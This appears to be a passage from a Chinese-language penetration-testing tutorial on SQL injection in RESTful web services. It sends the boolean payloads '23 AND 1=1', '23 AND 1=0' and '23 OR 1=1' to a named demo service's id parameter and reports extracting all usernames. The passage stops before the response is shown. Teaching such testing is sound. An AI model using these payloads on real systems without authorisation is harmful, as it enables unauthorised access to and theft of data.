 Web Service中的SQL注入（SQLi）漏洞与普通Web渗透测试中漏洞并无区别。

我们需要仔细检查Web Service中所有函数的所有参数，检查它们是否受到SQLi漏洞影响。

我们以“http://www.thomas-bayer.com/sqlrest/”这个RESTful Web Service为例，分析该服务存在的SQLi漏洞。我们使用Firefox中的RESTClient插件检测SQLi漏洞。

我们的目标是“http://www.thomas-bayer.com/sqlrest/CUSTOMER/$id”中的id参数，我们可以构造某些SQLi载荷，发往该地址，解析返回的结果。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p2.ssl.qhimg.com/t0129d4ca113df184d1.png)

正常的id值为23，我们使用的测试载荷为：

```
23 AND 1=1
```

测试地址为：

```
http://www.thomas-bayer.com/sqlrest/CUSTOMER/23%20AND%201=1/
```

返回结果为：

[![](https://p1.ssl.qhimg.com/t0151ee596a66e76451.png)](https://p1.ssl.qhimg.com/t0151ee596a66e76451.png)

我们没有看到任何错误页面，貌似SQL服务器正确处理了这个请求逻辑。

更换测试载荷，如下所示。

```
23 AND 1=0
```

测试地址为：

```
http://www.thomas-bayer.com/sqlrest/CUSTOMER/23%20AND%201=0
```

返回结果为：

[![](https://p0.ssl.qhimg.com/t0196a2778e2ea4c6d5.png)](https://p0.ssl.qhimg.com/t0196a2778e2ea4c6d5.png)

如果载荷不满足SQL查询条件，服务器会返回404响应报文。

我们发送如下载荷，并最终获得了服务器上的所有用户名。

```
23 OR 1=1
```

测试地址：

```
http://www.thomas-bayer.com/sqlrest/CUSTOMER/23%20OR%201=1
```

包含用户名的服务器响应如下：

